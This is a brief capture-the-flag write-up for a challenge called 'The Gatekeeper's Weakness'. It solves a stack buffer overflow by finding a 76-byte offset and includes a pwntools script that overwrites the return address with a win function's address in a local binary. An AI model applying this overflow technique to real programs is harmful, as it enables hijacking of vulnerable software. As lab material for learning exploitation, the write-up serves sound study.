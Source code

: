 # The Gatekeeper's Weakness

Challenge author: 0x251e

## Solution:
1. Find the offset
`python3 -c "print('A' * 76)" | ./gatekeeper`
2. Find win function address
3. Craft exploit
```python
#!/usr/bin/env python3
from pwn import *
p = process('./gatekeeper')
win_addr = <replace with function address>
payload = b'A' * 76 + p32(win_addr)
p.sendline(payload)
p.interactive()
```
